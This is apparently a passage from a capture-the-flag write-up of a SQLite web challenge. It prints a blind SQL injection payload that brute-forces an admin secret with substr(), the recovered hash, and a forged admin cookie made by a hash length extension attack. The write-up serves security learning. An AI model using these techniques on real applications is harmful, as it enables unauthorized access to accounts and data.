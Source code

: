 I used this [**List**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md), cause this app used `SQLite`
first output:
```
near "–": syntax error
```
Using the MATCH function along with CASE THEN, if the secret of user match for role 1

Payload:
`"'AND (SELECT CASE WHEN ((SELECT substr(secret,"+str(i+1)+",1) FROM users WHERE role=1) = '"+c+"') THEN 1 ELSE MATCH(1,1) END))  --"'`

![website](/assets/img/Posts/sqlint.png)
With sql listing request, i can't return any Db information, that's mean this function can’t match the exact length of the `secret` string for the user who has role 1 that is Admin. but i can do an injection by guessing admin secret through return message.

after search i found that we can bruteforce password using `substr()` function.
when we decode the guest cookie we found The length of `Guest’s secret` is 64 means that we need to loop through the `SQLi` until we get 64. So along with my friend, I made a python [**script**](https://github/0xN1ghtR1ngs) to bruteforce it.

and here the admin cookie: 
```
The password length is : 64
The password: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
```
It's sha256 hash, we need to crack it.
From the source code we see that this signature is an sha256(data+RANDOM_KEY) concatenated to the base64 user. 
I've looked for a long time for how we can crack this hash and i found this [**article**](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks), and i made [**script**](https://github.com/0xN1ghtR1ngs) to do this mission.

and here we did it :"D
```
The cookie : auth=dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMQO3VzZXJuYW1lPWFkbWluO3NlY3JldD1mMWZjMTIwMTBjMDk0MDE2ZGVmNzkxZTE0MzVkZGZkY2FlY2NmODI1MGUzNjYzMGMwYmM5MzI4NWMyOTcxMTA1Ow==.IQobfpRfcEVJCrr8BxQ+IeLy7wRbwHkJV3EZt3ehmpY=   
The lenght :11
```
try it by edit cookie in browser.